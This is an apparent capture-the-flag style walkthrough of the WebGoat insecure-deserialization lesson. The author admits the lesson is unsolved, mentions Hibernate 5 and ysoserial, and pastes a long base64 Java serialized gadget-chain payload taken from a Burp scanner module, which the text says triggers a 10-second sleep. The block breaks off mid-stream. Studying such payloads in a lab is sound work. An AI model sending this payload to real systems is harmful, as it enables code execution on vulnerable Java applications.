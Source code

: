 #### **(A8) Insecure Deserialization:**

##### Insecure Deserialization

5.  
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  I could'nt validate the lesson, you can find my search below. 

*   The package to use to trigger the flaw seems to be Hibernate 5.
*   The following payload, found in a [Burp Suite module](https://github.com/federicodotta/Java-Deserialization-Scanner/blob/master/src/burp/BurpExtender.java) works but triggers a 10 seconds sleep.
*   The [ysoserial library](https://github.com/frohoff/ysoserial) seems to be a search track too.

```
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9
sZHhwP0AAAAAAAAB3CAAAAAIAAAACc3IAI29yZy5oaWJlcm5hdGUuZW5naW5lLnNwaS5UeXBlZFZhbHV
lh4gUshmh5zwCAAJMAAR0eXBldAAZTG9yZy9oaWJlcm5hdGUvdHlwZS9UeXBlO0wABXZhbHVldAASTGp
hdmEvbGFuZy9PYmplY3Q7eHBzcgAgb3JnLmhpYmVybmF0ZS50eXBlLkNvbXBvbmVudFR5cGV-e2Nh9An
XEQIADVoAEmhhc05vdE51bGxQcm9wZXJ0eVoABWlzS2V5SQAMcHJvcGVydHlTcGFuTAAPY2FuRG9FeHR
yYWN0aW9udAATTGphdmEvbGFuZy9Cb29sZWFuO1sAB2Nhc2NhZGV0AChbTG9yZy9oaWJlcm5hdGUvZW5
naW5lL3NwaS9DYXNjYWRlU3R5bGU7TAARY29tcG9uZW50VHVwbGl6ZXJ0ADFMb3JnL2hpYmVybmF0ZS9
0dXBsZS9jb21wb25lbnQvQ29tcG9uZW50VHVwbGl6ZXI7TAAKZW50aXR5TW9kZXQAGkxvcmcvaGliZXJ
uYXRlL0VudGl0eU1vZGU7WwALam9pbmVkRmV0Y2h0ABpbTG9yZy9oaWJlcm5hdGUvRmV0Y2hNb2RlO1s
ADXByb3BlcnR5TmFtZXN0ABNbTGphdmEvbGFuZy9TdHJpbmc7WwATcHJvcGVydHlOdWxsYWJpbGl0eXQ
AAltaWwANcHJvcGVydHlUeXBlc3QAGltMb3JnL2hpYmVybmF0ZS90eXBlL1R5cGU7WwAhcHJvcGVydHl
WYWx1ZUdlbmVyYXRpb25TdHJhdGVnaWVzdAAmW0xvcmcvaGliZXJuYXRlL3R1cGxlL1ZhbHVlR2VuZXJ
hdGlvbjtMAAl0eXBlU2NvcGV0ACpMb3JnL2hpYmVybmF0ZS90eXBlL1R5cGVGYWN0b3J5JFR5cGVTY29
wZTt4cgAfb3JnLmhpYmVybmF0ZS50eXBlLkFic3RyYWN0VHlwZYdFsKQmRS24AgAAeHAAAAAAAAFwcHN
yADNvcmcuaGliZXJuYXRlLnR1cGxlLmNvbXBvbmVudC5Qb2pvQ29tcG9uZW50VHVwbGl6ZXLAqqGhlZ9
DmwIABEwADmNvbXBvbmVudENsYXNzdAARTGphdmEvbGFuZy9DbGFzcztMAAlvcHRpbWl6ZXJ0ADBMb3J
nL2hpYmVybmF0ZS9ieXRlY29kZS9zcGkvUmVmbGVjdGlvbk9wdGltaXplcjtMAAxwYXJlbnRHZXR0ZXJ
0ACpMb3JnL2hpYmVybmF0ZS9wcm9wZXJ0eS9hY2Nlc3Mvc3BpL0dldHRlcjtMAAxwYXJlbnRTZXR0ZXJ
0ACpMb3JnL2hpYmVybmF0ZS9wcm9wZXJ0eS9hY2Nlc3Mvc3BpL1NldHRlcjt4cgA3b3JnLmhpYmVybmF
0ZS50dXBsZS5jb21wb25lbnQuQWJzdHJhY3RDb21wb25lbnRUdXBsaXplcgh6nmX_Q4R7AgAFWgASaGF
zQ3VzdG9tQWNjZXNzb3JzSQAMcHJvcGVydHlTcGFuWwAHZ2V0dGVyc3QAK1tMb3JnL2hpYmVybmF0ZS9
wcm9wZXJ0eS9hY2Nlc3Mvc3BpL0dldHRlcjtMAAxpbnN0YW50aWF0b3J0ACJMb3JnL2hpYmVybmF0ZS9
0dXBsZS9JbnN0YW50aWF0b3I7WwAHc2V0dGVyc3QAK1tMb3JnL2hpYmVybmF0ZS9wcm9wZXJ0eS9hY2N
lc3Mvc3BpL1NldHRlcjt4cAAAAAAAdXIAK1tMb3JnLmhpYmVybmF0ZS5wcm9wZXJ0eS5hY2Nlc3Muc3B
pLkdldHRlcjsmhfgDST23zwIAAHhwAAAAAXNyAD1vcmcuaGliZXJuYXRlLnByb3BlcnR5LmFjY2Vzcy5
zcGkuR2V0dGVyTWV0aG9kSW1wbCRTZXJpYWxGb3JtrFu2VsndG1gCAARMAA5jb250YWluZXJDbGFzc3E
AfgAUTAAOZGVjbGFyaW5nQ2xhc3NxAH4AFEwACm1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt
MAAxwcm9wZXJ0eU5hbWVxAH4AIHhwdnIAOmNvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC5
4c2x0Yy50cmF4LlRlbXBsYXRlc0ltcGwJV0_BbqyrMwMACUkADV9pbmRlbnROdW1iZXJJAA5fdHJhbnN
sZXRJbmRleFoAFV91c2VTZXJ2aWNlc01lY2hhbmlzbUwAGV9hY2Nlc3NFeHRlcm5hbFN0eWxlc2hlZXR
xAH4AIEwAC19hdXhDbGFzc2VzdAA7TGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x
0Yy9ydW50aW1lL0hhc2h0YWJsZTtbAApfYnl0ZWNvZGVzdAADW1tCWwAGX2NsYXNzdAASW0xqYXZhL2x
hbmcvQ2xhc3M7TAAFX25hbWVxAH4AIEwAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9
wZXJ0aWVzO3hwcQB-ACd0ABNnZXRPdXRwdXRQcm9wZXJ0aWVzdAAEdGVzdHBwcHBwcHBwcHB1cgAaW0x
vcmcuaGliZXJuYXRlLnR5cGUuVHlwZTt-r6uh5JVhmgIAAHhwAAAAAXEAfgAScHBzcQB-ACIAAAAA___
__wB0AANhbGxwdXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX-AYIVOACAAB4cAAABiXK_rq
-AAAAMQAyBwAwAQAzeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXl
sb2FkBwAEAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJ
zdHJhY3RUcmFuc2xldAcABgEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQAQc2VyaWFsVmVyc2lvblVJRAE
AAUoBAA1Db25zdGFudFZhbHVlBa0gk_OR3e8-AQAGPGluaXQ-AQADKClWAQAEQ29kZQoAAwAQDAAMAA0
BAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQA1THlzb3NlcmlhbC9
wYXlsb2Fkcy91dGlsL0dhZGdldHMkU3R1YlRyYW5zbGV0UGF5bG9hZDsBAAl0cmFuc2Zvcm0BAHIoTGN
vbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGF
jaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAApFeGNlcHR
pb25zBwAZAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXh
jZXB0aW9uAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHR
jL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWx
pemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGV
ybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l
0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXp
hdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmF
```